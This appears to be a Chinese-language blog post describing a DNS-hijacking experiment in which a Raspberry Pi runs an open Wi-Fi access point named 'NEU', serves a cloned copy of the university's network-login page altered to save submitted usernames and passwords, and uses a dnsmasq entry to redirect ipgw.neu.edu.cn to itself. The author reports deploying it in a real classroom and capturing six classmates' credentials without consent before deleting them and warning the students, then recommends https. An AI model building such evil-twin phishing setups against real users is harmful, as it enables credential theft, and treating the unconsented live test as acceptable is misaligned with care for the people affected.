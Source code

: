﻿---
layout: post
title: Raspberry实现简单的DNS劫持
categories: Raspberry
---

> 受到一些无线路由器的启发，想在连接无线AP后通过访问一个本地域名来实现访问树莓派IP的目的，Google得到可以设置本地DNS进行解析。然后就突然想到可以做一次简单的DNS劫持测试。

<!-- more -->

### 计划
* 树莓派开启无线AP，并设置SSID为NEU，取消密码。  
* 拷贝学校IP控制网关页面到树莓派上，并进行适当修改，使其在点击“连接网络”后存储登录信息到树莓派数据库中。  
* 设置本地DNS，将IP控制网关的域名解析到树莓派的IP上。  

### 无线AP设置  
* 在上一篇文章中我们已经基本设置好了树莓派的无线AP，其中树莓派的IP为4.3.2.1。  
* 更改无线AP的SSID和密码：  
  `$ sudo vim /etc/hostapd/hostapd.conf`  
  原本的内容为：  
  ```
  interface=wlan0  
  driver=nl80211  
  ssid=Raspberry AP  /***change***/  
  hw_mode=g  
  channel=7  
  wmm_enabled=1  
  macaddr_acl=0  
  auth_algs=1  
  ignore_broadcast_ssid=0  
  wpa=2  /***change***/  
  wpa_passphrase=12345678  /***delete***/  
  wpa_key_mgmt=WPA-PSK  /***delete***/  
  rsn_pairwise=CCMP  
  ```
  修改之后为：  
  ```
  interface=wlan0  
  driver=nl80211  
  ssid=NEU  
  hw_mode=g  
  channel=7  
  wmm_enabled=1  
  macaddr_acl=0  
  auth_algs=1  
  ignore_broadcast_ssid=0  
  wpa=0  
  rsn_pairwise=CCMP  
  ```
* 重启hostapd服务：  
  `$ sudo systemctl restart hostapd`  

### 网页拷贝
* 分别访问电脑版和手机版的IP控制网关，在Chromium浏览器中右键另存为就得到了当前页面的html代码以及该页面用到的文件。   
* 将下载到的文件及文件夹全部移动到`/var/www/html/`目录下。  
* 调整文件结构。例如：  
  * 新建`css/`文件夹将所有的css文件放进去；  
  * 新建`includes/`文件夹将html页面相同的布局放进去；  
  * 将html文件改为php文件。  
* 新建`index.php`，判断访问者是手机还是电脑，并跳转到对应页面。  
  `$ vim index.php`  
  （代码来源自网络）  
  （其中`srun_portal_phone.php`是手机页面，`srun_portal_pc.php`是电脑页面）  
  ```
  <?php  
  function is_mobile_request()  
  {  
	  $_SERVER['ALL_HTTP'] = isset($_SERVER['ALL_HTTP']) ? $_SERVER['ALL_HTTP'] : '';  
	  $mobile_browser = '0';  
	  if(preg_match('/(up.browser|up.link|mmp|symbian|smartphone|midp|wap|phone|iphone|ipad|ipod|android|xoom)/i', strtolower($_SERVER['HTTP_USER_AGENT'])))  
		  $mobile_browser++;  
	  if((isset($_SERVER['HTTP_ACCEPT'])) and (strpos(strtolower($_SERVER['HTTP_ACCEPT']),'application/vnd.wap.xhtml+xml') !== false))  
		  $mobile_browser++;  
	  if(isset($_SERVER['HTTP_X_WAP_PROFILE']))  
		  $mobile_browser++;  
	  if(isset($_SERVER['HTTP_PROFILE']))  
		  $mobile_browser++;  
		  $mobile_ua = strtolower(substr($_SERVER['HTTP_USER_AGENT'],0,4));  
	  $mobile_agents = array(  
      'w3c ','acs-','alav','alca','amoi','audi','avan','benq','bird','blac',  
      'blaz','brew','cell','cldc','cmd-','dang','doco','eric','hipt','inno',  
      'ipaq','java','jigs','kddi','keji','leno','lg-c','lg-d','lg-g','lge-',  
      'maui','maxo','midp','mits','mmef','mobi','mot-','moto','mwbp','nec-',  
      'newt','noki','oper','palm','pana','pant','phil','play','port','prox',  
      'qwap','sage','sams','sany','sch-','sec-','send','seri','sgh-','shar',  
      'sie-','siem','smal','smar','sony','sph-','symb','t-mo','teli','tim-',  
      'tosh','tsm-','upg1','upsi','vk-v','voda','wap-','wapa','wapi','wapp',  
      'wapr','webc','winw','winw','xda','xda-'
      );  
	  if(in_array($mobile_ua, $mobile_agents))  
		  $mobile_browser++;  
	  if(strpos(strtolower($_SERVER['ALL_HTTP']), 'operamini') !== false)  
		  $mobile_browser++;  
	  // Pre-final check to reset everything if the user is on Windows  
	  if(strpos(strtolower($_SERVER['HTTP_USER_AGENT']), 'windows') !== false)  
		  $mobile_browser=0;  
	  // But WP7 is also Windows, with a slightly different characteristic  
	  if(strpos(strtolower($_SERVER['HTTP_USER_AGENT']), 'windows phone') !== false)  
		  $mobile_browser++;  
	  if($mobile_browser>0)   
		  echo '<meta http-equiv="refresh" content="0;url=srun_portal_phone.php?url=&ac_id=1">';  
	  else  
		  echo '<meta http-equiv="refresh" content="0;url=srun_portal_pc.php?url=&ac_id=1">'; 
  }
	  is_mobile_request();
  ?>
  ```
* 修改文件内容。例如：  
  * 将代码中https全部替换为http；  
  * 删除各个页面中可能保留的帐号密码；  
  * 修改php代码，自动将表单提交内容存入树莓派数据库。  

### DNS解析
* 添加解析：  
  `$ sudo vim /etc/dnsmasq.conf`  
  在第一行添加：  
  `address = /ipgw.neu.edu.cn/4.3.2.1`  
  表示将`ipgw.neu.edu.cn`解析到本地的web服务器上。  
* 重启服务：  
  `$ sudo systemctl restart dnsmasq`  

### 测试
* 真实网页：  
  ![ipgw-T-https](/public/image/ipgw-T-https.png)
* 虚假网页：  
  ![ipgw-F-http](/public/image/ipgw-F-http.png)
* 用户名输入：20160000  
  密码输入：2016abcd  
  点击连接网络，此时在树莓派的数据库中就可以看到：  
  ![ipgw-test](/public/image/ipgw-test.png)

### 总结
* 实际上，由于本校的IP控制网关启用了https，这种DNS劫持的方法应该是没有实际意义的。  
  ![ipgw-F-https](/public/image/ipgw-F-https.png)
  在保存书签的时候，Chrome和Safari浏览器会默认保存为`https://ipgw.neu.edu.cn`；如果手动输网址，这两个浏览器也会自动补全为`https://ipgw.neu.edu.cn`。所以我本来对之后的实际测试是不抱任何希望的。  
  然而在将树莓派带到教室进行测试后，两节课之后数据库还是多了6名同学的数据。测试结束后我先删除了数据库数据，然后又分别向这6位同学发送邮件提醒其修改浏览器书签，顺便建议他们修改密码。  
  > 维基百科：  
  > http是不安全的，且攻击者通过监听和中间人攻击等手段，可以获取网站帐户和敏感信息等。https被设计为可防止前述攻击，并（在没有使用旧版本的SSL时）被认为是安全的。  
* 为了防范这种DNS劫持，最好的办法就是使用https。  
* 现在就检查一遍你的书签，把可以替换的http全部替换为https吧！  
